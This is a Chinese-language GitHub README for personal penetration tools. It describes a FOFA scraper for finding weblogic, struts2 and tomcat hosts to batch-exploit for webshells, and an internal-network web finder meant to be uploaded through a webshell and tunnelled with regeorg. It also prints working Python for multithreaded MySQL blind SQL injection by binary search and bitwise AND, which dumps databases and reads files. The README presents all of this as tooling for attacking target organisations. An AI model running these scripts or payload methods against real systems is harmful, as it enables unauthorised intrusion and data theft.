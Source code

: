



# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|

---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  ![image-20200524100713379](images\fofa_v2.png)
  ![](images\test_1.png)

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 ![](images/image-20200524001731394.png)

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 ![](images/image-20200529201837138.png)

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。

![image-20200529205101029](images\image-20200529205101029.png)

```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```
![image-20200529234700625](images\image-20200529234700625.png)

![image-20200529234735321](images\image-20200529234735321.png)

*ReadMe* : https://forum.90sec.com/t/topic/1076

---